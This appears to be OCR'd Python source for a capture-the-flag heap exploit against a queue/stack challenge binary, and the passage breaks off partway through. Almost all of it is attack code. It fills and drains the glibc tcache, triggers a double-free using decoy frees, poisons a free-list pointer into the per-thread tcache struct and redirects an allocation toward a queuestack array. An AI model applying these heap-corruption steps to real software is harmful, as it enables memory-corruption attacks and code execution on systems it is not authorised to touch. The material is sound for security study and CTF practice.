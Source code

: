 ~~~ python
    tail_addr = tail_addr >> 32 #remember that ints are only 4 bytes long!
    predicted_tail = tail_addr % 6
    #move the tail for queue stack 3 down to 3:
    #first move it down to 0:
    for i in range(predicted_tail):
        popright(3)
    #then alloc 4 more chunks:
    for i in range(4):
        pushright(3, "AAAAAAA")
    #now move the head for queuestack 4 down to 3:
    for i in range(3) :
        pushleft(4, "DDDDDD")
    #now fill up tcache:
    for i in range(6):
        popright(1)
    popright(2)
    #now free the last chunk we alloced:
    popright(3)
    #free a decoy chunk so glibc doesn't get suspicious:
    popright(2)
    #free the last chunk again:
    popleft(4)
    #get our free chunk to the top of the free list::
    for i in range(6) :
        pushright(1, "AAAAAA")
    pushright(2, "AAAAAA")
    #calc addr of index for 0x290 chunks in prethread_tcache_struct
    bin_290 = heap_base+0x48
    #overwrite the free chunk to link bin_290:
    #add an extra byte after the original addr bc the chall bin will set the last byte of our card to 0
    bin_290 = bin_290 | padding
    pushright(4, p64(bin_290))
    #get control of bin 290:
    pushright(2, "BBBB")
    pushright(2, "BBBB")
    #alloc and overwrite to be full:
    pushright(2, p64(0x0707070707070707))
    #alloc another chunk in 1 to double-free again:
    #this is mainly to reset tail & head for queues 1 & 2 back to where they were:
    pushright(3, ("A" * 0x20))
    pushleft(4, "CCCCCC")
    #now fill tcache up again!
    for i in range(6): 
        popright(1)
    #start popping from the start of 4 so as not to free the invalid pointer in prethread
    popleft(2)
    #pop off 1:
    popright(3)
    #pop a decoy off 4:
    popleft(2)
    #next trigger the double-free:
    popleft(4)
    #clear out tcache:
    for i in range(6):
        pushright(1, p64((heap_base+0x80) | padding))
    pushleft(2, p64((heap_base +0x80) | padding))
    #next overwrite to addr of queuestackarray 2:
    qstack2 = heap_base + 0x2d0
    qstack2 = qstack2 | padding
    pushright(2, p64(qstack2))
    #get a pointer to qstack2
    #write to 1
~~~